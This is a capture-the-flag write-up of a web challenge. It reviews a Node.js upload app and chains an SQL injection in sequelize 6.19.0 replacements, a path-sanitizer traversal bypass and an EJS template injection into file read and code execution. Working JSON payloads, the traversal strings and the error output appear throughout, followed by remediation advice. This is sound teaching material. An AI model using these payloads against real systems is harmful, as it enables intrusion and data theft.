



# 09-25: Chainfection

## Description

> Upload your files, share them with the world, and enjoy unlimited safe cloud storage directly from your favorite browser. Free antivirus scans that runs on good vibes. What could possibly go wrong?

## Solution

In this writeup, we'll review the latest [YesWeHack](https://twitter.com/yeswehack) Dojo [challenge](https://dojo-yeswehack.com/challenge-of-the-month/dojo-45), created by [Brumens](https://twitter.com/Brumens2) 💜

Follow me on [Twitter](https://twitter.com/_CryptoCat) and [LinkedIn](https://www.linkedin.com/in/cryptocat) (and everywhere else 🔪) for more hacking content! 🥰

### Source code review

Starting with the setup code (nodejs), we see the flag is written to `/tmp` under a randomised filename. As usual, I snipped the `index.html` because it appears to be purely UI-related.

#### setup.js

```javascript
const fs = require("node:fs");
const path = require("node:path");
const crypto = require("crypto");
const ejs = require("ejs");
const process = require("process");
const { Sequelize, DataTypes, Op, literal } = require_v("sequelize", "6.19.0");
const psanitize = require_v("path-sanitizer", "2.0.0");

process.chdir("/tmp");
fs.mkdirSync("view");
fs.mkdirSync("user/files", { recursive: true });

fs.writeFileSync(`flag_${crypto.randomBytes(16).toString("hex")}.txt`, flag);
fs.writeFileSync("user/files/document.txt", "test");

// create a sqlite database
const sequelize = new Sequelize({
    dialect: "sqlite",
    storage: ":memory:",
    logging: false,
});

// define "users" table
const Users = sequelize.define("User", {
    name: DataTypes.STRING,
    verify: DataTypes.BOOLEAN,
    attachment: DataTypes.STRING,
});

async function init() {
    await sequelize.sync();
    // insert users
    await Users.create({
        name: "brumens",
        verify: true,
        attachment: "document.txt",
    });
    await Users.create({
        name: "leet",
        verify: false,
        attachment: "",
    });
}

// Write the design
fs.writeFileSync(
    "view/index.ejs",
    `
<html>
  SNIPPED
</html>
`.trim()
);

return { flag, secrets, fs, path, psanitize, sequelize, ejs, DataTypes, Op, Users, init };
```

Initial thoughts:

-   SQL database -> SQL injection?
-   File attachment -> insecure file upload?
-   Path sanitizer -> directory traversal / LFI?
-   EJS -> SSTI?
-   Hardcoded library versions (`sequelize` + `path-sanitizer`) -> known CVE(s)?

#### app.js

```javascript
function getJsonInput(rawData) {
    let jsonData;

    // Parse incoming JSON string
    try {
        jsonData = JSON.parse(rawData); // [1]
    } catch (err) {
        throw new Error("Invalid JSON input: " + err.message);
    }

    // Required keys
    const requiredKeys = ["username", "updatedat", "attachment", "content"];

    // Validate presence of keys
    for (const key of requiredKeys) {
        if (!(key in jsonData)) {
            // [2]
            throw new Error(`Missing required key: ${key}`);
        }
    }

    return jsonData;
}

async function main() {
    await init();

    var data = {};
    var filename = "";
    var error = "";

    // Update the current user's attachment
    try {
        data = getJsonInput(decodeURIComponent("OUR_INPUT"));

        await Users.update(
            // [3]
            { attachment: data.attachment },
            {
                where: {
                    id: 2,
                },
            }
        );
        // Get user from database
        const user = await Users.findOne({
            // [4]
            where: {
                [Op.and]: [sequelize.literal(`strftime('%Y-%m-%d', updatedAt) >= :updatedat`), { name: data.username }, { verify: true }],
            },
            replacements: { updatedat: data.updatedat },
        });

        // Sanitize the attachment file path
        const file = `/tmp/user/files/${psanitize(user.attachment)}`; // [5]
        // Write the attachment content to the sanitized file path
        fs.writeFileSync(file, data.content); // [6]
    } catch (err) {
        error = err;
    } finally {
        await sequelize.close();
    }
    // Render the view
    console.log(ejs.render(fs.readFileSync("/tmp/view/index.ejs", "utf-8"), { filename: path.basename(filename), error: error }));
}
// Run the main program
main();
```

1. We need to provide valid JSON input
2. The JSON object must contain four keys: `username`, `updatedat`, `attachment`, `content`
3. The "leet" user (id=2) will be updated with the new `attachment`
4. A _verified_ user is selected based on `username` and `updatedat`
5. The returned `user.attachment` is sanitised and used as a filename
6. The `content` is written to the constructed filename

### Testing functionality

The UI looks fancy and interactive but don't get distracted - it is entirely non-functional.



The only thing we need to worry about is submitting valid JSON with all the relevant keys, e.g.

```json
{
    "username": "brumens",
    "updatedat": "420",
    "attachment": "important",
    "content": "meow"
}
```

We get a new error about a null attachment.

```
TypeError: Cannot read properties of null (reading 'attachment')
```

Let's change the `updatedat` value, since the SQL statement uses it in a `>=` condition.

```json
{
    "username": "brumens",
    "updatedat": "1",
    "attachment": "important",
    "content": "meow"
}
```

That clears the error, but we don't get any output. Recall that the _returned_ attachment value is used as the filename and the "brumens" user `attachment` is set to "document.txt", containing "test".

We don't have any means to update that, since the SQL statement to update the attachment is hardcoded to the second user ID, belonging to "leet". Unfortunately, we also cannot change the `username` to "leet" because the user is unverified 😤

The SQL query will look something like this, where `:updatedat` is the raw user-supplied `updatedat` value (swapped in via [replacements](https://sequelize.org/docs/v6/core-concepts/raw-queries/#replacements)) and `data.username` is the user-supplied username.

```sql
SELECT * FROM users WHERE (strftime('%Y-%m-%d', updatedAt) >= :updatedat)
	AND name = data.username
	AND verify = 1
LIMIT 1;
```

### SQL Injection (CVE-2023-25813)

Checking the known vulnerabilities for sequelize 6.19.0, there's an advisory from 2023 titled ["Sequelize vulnerable to SQL Injection via replacements"](https://github.com/advisories/GHSA-wrh9-cjv3-2hpw) 👀

The example in the advisory is revealing. The statement replaces ":firstName" in the literal string with `firstName`:

```ts
User.findAll({
    where: or(literal('soundex("firstName") = soundex(:firstName)'), { lastName: lastName }),
    replacements: { firstName },
});
```

They supply an SQL statement in the `firstName` field and then ":firstName" in the `lastName` field:

```json
{
    "firstName": "OR true; DROP TABLE users;",
    "lastName": ":firstName"
}
```

The result is that the replacements operation first swaps the ":firstName" with the SQL statement _and then_ swaps the ":firstName" we provided in the last name with the same SQL statement, e.g. it starts as:

```sql
SELECT * FROM users WHERE soundex("firstName") = soundex(:firstName) OR "lastName" = ':firstName'
```

Then after the replacement becomes:

```sql
SELECT * FROM users WHERE soundex("firstName") = soundex('OR true; DROP TABLE users;') OR "lastName" = ''OR true; DROP TABLE users;''
```

Let's apply the same principle to our scenario.

```json
{
    "username": ":updatedat",
    "updatedat": "SQLI_GOES_HERE",
    "attachment": "document.txt",
    "content": "meow"
}
```

Sequelize will first generate this query:

```sql
SELECT * FROM users WHERE (strftime('%Y-%m-%d', updatedAt) >= :updatedat)
	AND name = ":updatedat"
	AND verify = 1
LIMIT 1;
```

Then it injects the replacements:

```sql
SELECT * FROM users WHERE (strftime('%Y-%m-%d', updatedAt) >= "SQLI_GOES_HERE")
	AND name = "SQLI_GOES_HERE"
	AND verify = 1
LIMIT 1;
```

That's not valid SQL syntax, so we trigger an error. Developers fear errors but hackers welcome them - progress! 🙏


Let's try again.

```json
{
    "username": ":updatedat",
    "updatedat": "'' ) OR 1=1 -- ",
    "attachment": "document.txt",
    "content": "meow"
}
```

After replacement:

```sql
SELECT * FROM users WHERE (strftime('%Y-%m-%d', updatedAt) >= '' ) OR 1=1 -- )
	AND name = "'' ) OR 1=1 -- "
	AND verify = 1
LIMIT 1;
```

Everything after the comment is ignored, so the statement essentially becomes:

```sql
SELECT * FROM users WHERE (strftime('%Y-%m-%d', updatedAt) >= '' ) OR 1=1;
```

If we submit that, we don't get an error. Let's try and change the condition:

```json
{
    "username": ":updatedat",
    "updatedat": "'' ) OR 1=2 -- ",
    "attachment": "document.txt",
    "content": "meow"
}
```

Now we get the error again! Just like that, SQLi confirmed ✅

We need to select the second user, so let's adjust the payload.

```json
{
    "username": ":updatedat",
    "updatedat": "'' ) OR rowid=2 -- ",
    "attachment": "/etc/passwd",
    "content": "meow"
}
```

The displayed error is promising - it's finally trying to open our specified file!

```
Error: ENOENT: no such file or directory, open '/tmp/user/files/etc/passwd'
```

### Directory Traversal (CVE-2024-56198)

If you thought about directory traversal, that's a good instinct. Unfortunately, any `../` we enter are stripped and URL-encoding doesn't work as a bypass.

That takes us back to the other library we intended to check for known vulns: `path-sanitizer 2.0.0`

It turns out versions 3.1.0 and below [are vulnerable](https://security.snyk.io/vuln/SNYK-JS-PATHSANITIZER-8600546) to directory traversal. The referenced [PoC](https://www.loom.com/share/b766ece5193842848ce7562fcd559256?sid=fd826eb6-0eee-4601-bf0e-9cfee5c56e9d) is down, we could check wayback/archives but why don't we instead check the [git commit](https://github.com/cabraviva/path-sanitizer/commit/b6d2319eac910dffdfacc8460f5b5cc5a1518ead) 🔎

There was already a test for URL-encoded slashes.

```javascript
it("Protects reported vulnerability #1", () => {
    expect(linuxSlash(join("/var/app-dir", sanitize("..=%5c..=%5c..=%5c..=%5c..=%5c..=%5c..=%5cetc/passwd")))).not.toBe("/etc/passwd");
});
```

Here's the new test they added.

```javascript
it("Protects reported vulnerability #2", () => {
    expect(linuxSlash(join("/var/app", sanitize("./../../test/../../../../../../../../../../etc/passwd")))).not.toBe("/etc/passwd");
});
```

Interesting 😕 it starts with `./` and traverses to a \[presumably\] non-existent directory, continues traversing backwards and then goes to the target `/etc/passwd`. I tried multiple variations of vuln #2 but didn't make any progress.

Out of interest, I try vuln #1 (`..=%5c..=%5c..=%5c..=%5c..=%5c..=%5c..=%5cetc/passwd`) which _should_ already be patched. We did hit a different error.

```
Error: EACCES: permission denied, open '/tmp/user/files/../../../../../../../etc/passwd'
```

At this point I realised I was looking at the wrong advisory (and test case).



1. Where we are (2.0.0)
2. The `..=%5C` vulnerability is fixed
3. The `./../../test/../../../../../../../../../../etc/passwd` vulnerability is fixed

Maybe vuln #2 was introduced after version 3.0.0? Regardless, vuln #1 works for us 😌

### Server-side Template Injection (RCE)

Let's think about which file we might be able to overwrite for RCE. How about `/tmp/view/index.ejs`, since it's rendered as a template at the bottom of app.js?

```javascript
console.log(ejs.render(fs.readFileSync("/tmp/view/index.ejs", "utf-8"), { filename: path.basename(filename), error: error }));
```

We'll try a basic payload to read the contents of a file in the `/tmp` directory beginning with "flag\_"

```javascript
<% var fs=require('fs'); var f=fs.readdirSync('/tmp').find(x=>x.indexOf('flag_')===0); if(f){ print(fs.readFileSync('/tmp/'+f,'utf8')) } %>
```

Put it all together.

```json
{
    "username": ":updatedat",
    "updatedat": "'' ) OR rowid=2 -- ",
    "attachment": "..=%5c..=%5c..=%5c..=%5c..=%5c..=%5c..=%5c/tmp/view/index.ejs",
    "content": "<% var fs=require('fs'); var f=fs.readdirSync('/tmp').find(x=>x.indexOf('flag_')===0); if(f){ print(fs.readFileSync('/tmp/'+f,'utf8')) } %>"
}
```

The whole HTML response has been replaced with an error 👀

```javascript
:10 ; var fs=require('fs'); var f=fs.readdirSync('/tmp').find(x=>x.indexOf('flag_')===0); if(f){ print(fs.readFileSync('/tmp/'+f,'utf8')) } ^ ReferenceError: ejs:1 >> 1| <% var fs=require('fs'); var f=fs.readdirSync('/tmp').find(x=>x.indexOf('flag_')===0); if(f){ print(fs.readFileSync('/tmp/'+f,'utf8')) } %> require is not defined at eval (eval at compile (/app/node_modules/ejs/lib/ejs.js:673:12), :10:15) at anonymous (/app/node_modules/ejs/lib/ejs.js:703:17) at exports.render (/app/node_modules/ejs/lib/ejs.js:425:37) at main (eval at (/app/runner.cjs:38:13), :74:19) { path: '' } Node.js v20.19.5
```

The key part is "require is not defined at eval", lets try to access it from [globalThis](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/globalThis)

```json
{
    "username": ":updatedat",
    "updatedat": "'' ) OR rowid=2 -- ",
    "attachment": "..=%5c..=%5c..=%5c..=%5c..=%5c..=%5c..=%5c/tmp/view/index.ejs",
    "content": "<% var fs = globalThis && globalThis.process && globalThis.process.mainModule && globalThis.process.mainModule.require && globalThis.process.mainModule.require('fs'); var f = fs.readdirSync('/tmp').find(function(x){ return x.indexOf('flag_')===0 }); if(f){ print(fs.readFileSync('/tmp/'+f,'utf8')) } %>"
}
```

We get a new error that "print is not defined at eval".

```javascript
:10 ; var fs = globalThis && globalThis.process && globalThis.process.mainModule && globalThis.process.mainModule.require && globalThis.process.mainModule.require('fs'); var f = fs.readdirSync('/tmp').find(function(x){ return x.indexOf('flag_')===0 }); if(f){ print(fs.readFileSync('/tmp/'+f,'utf8')) } ^ ReferenceError: ejs:1 >> 1| <% var fs = globalThis && globalThis.process && globalThis.process.mainModule && globalThis.process.mainModule.require && globalThis.process.mainModule.require('fs'); var f = fs.readdirSync('/tmp').find(function(x){ return x.indexOf('flag_')===0 }); if(f){ print(fs.readFileSync('/tmp/'+f,'utf8')) } %> print is not defined at eval (eval at compile (/app/node_modules/ejs/lib/ejs.js:673:12), :10:262) at anonymous (/app/node_modules/ejs/lib/ejs.js:703:17) at exports.render (/app/node_modules/ejs/lib/ejs.js:425:37) at main (eval at (/app/runner.cjs:38:13), :74:19) { path: '' } Node.js v20.19.5
```

Let's adjust the payload to try a chain of ways to get a `fs` handle.

```json
{
    "username": ":updatedat",
    "updatedat": "'' ) OR rowid=2 -- ",
    "attachment": "..=%5c..=%5c..=%5c..=%5c..=%5c..=%5c..=%5c/tmp/view/index.ejs",
    "content": "<% var fs=null; try{ if(typeof module!=='undefined' && module.require) fs=module.require('fs'); else if(typeof process!=='undefined' && process.mainModule && process.mainModule.require) fs=process.mainModule.require('fs'); else if(typeof require!=='undefined') fs=require('fs'); else fs=(Function('return require')())('fs'); }catch(e){ fs=null; } var f = fs && fs.readdirSync('/tmp').find(function(x){return x.indexOf('flag_')===0}); %><%= f ? fs.readFileSync('/tmp/'+f,'utf8') : '' %>"
}
```

It works! 😎



Flag: `FLAG{Bug_C4ins_Br1ng5_Th3_B3st_Imp4ct}`

## Remediation

-   Upgrade sequelize to >= 6.19.1 to pick up the replacements fix
-   Upgrade path-sanitizer to >= 3.1.0 and add an explicit server-side allowlist for writable upload targets (never allow writes to template/view directories)
-   Keep uploads and templates strictly separate; never render uploaded files as templates
-   Enforce filesystem permissions: process should not be able to write into the template/view directory

## Summary (TLDR)

The challenge combined two vulnerable libraries to create a vulnerability chain: SQL injection -> file write + path traversal -> SSTI (RCE) 😈
